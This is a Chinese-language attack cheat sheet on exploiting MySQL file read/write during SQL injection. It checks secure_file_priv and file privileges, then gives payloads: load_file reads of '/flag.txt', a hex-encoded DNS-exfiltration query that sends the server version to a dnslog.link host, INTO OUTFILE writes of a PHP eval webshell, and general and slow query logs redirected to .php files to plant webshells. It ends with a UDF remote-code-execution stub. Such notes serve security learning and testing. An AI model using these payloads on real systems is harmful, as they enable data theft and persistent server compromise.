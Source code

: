 # 文件读写函数
	- 权限
		- MySQL 中 在在mysql 5.6.34版本以后 secure_file_priv的值默认为NULL ,而 secure_file_priv为null 那么我们就不能导出文件，以下都建立在
		- secure_file_priv 的默认值被修改为''才能利用，且这个只能手工修改配置文件不能用sql语句，也就是想直接导出需要管理员不知道干了什么帮你修改好这个权限才行。
		- windows系统在 my.ini的[mysqld]下面加上secure_file_priv = ，linux 的在 /etc/my.cnf 同时读写权限问题就不用说了。
	- 查询读写权限
		- ```sql
		  select file_priv from mysql.user where user='root' and host='localhost';
		  select @@secure_file_priv; # 默认为NULL，不可读写
		  ```
	- `load_file`
		- ```sql
		  load_file('/flag.txt')
		  ```
		- 在mysql中load_file 会带dns查询请求
		- ```sql
		  select load_file(concat(0x5c5c5c5c,version(),0x2E66326362386131382E646E736C6F672E6C696E6B2F2F616263));
		  ```
	- `outfile`
		- ```sql
		  select * from admin where id =1 union select 1,'<?php eval($_POST[cmd]);?>',3 into outfile 'G:\\test.txt';
		  ```
	- `dumpfile`
- # 通过日志写文件
	- ```sql
	  SHOW VARIABLES LIKE '%general%';
	  set global general_log=on;
	  set global general_log_file='D://404.php';
	  select '<?php eval($_POST['404']) ?>';
	  ```
	- 查看当前日志文件
		- ```sql
		  show global variables like '%query_log%'
		  ```
	- 慢日志
		- ```sql
		  set global slow_query_log=1;
		  set global slow_query_log_file='D://404.php'
		  select '<?php eval($_POST['404']) ?>' or sleep(15);
		  ```
- # UDF配合上传文件RCE
	- ```sql
	  show variables like '%plugin%';
	  ```
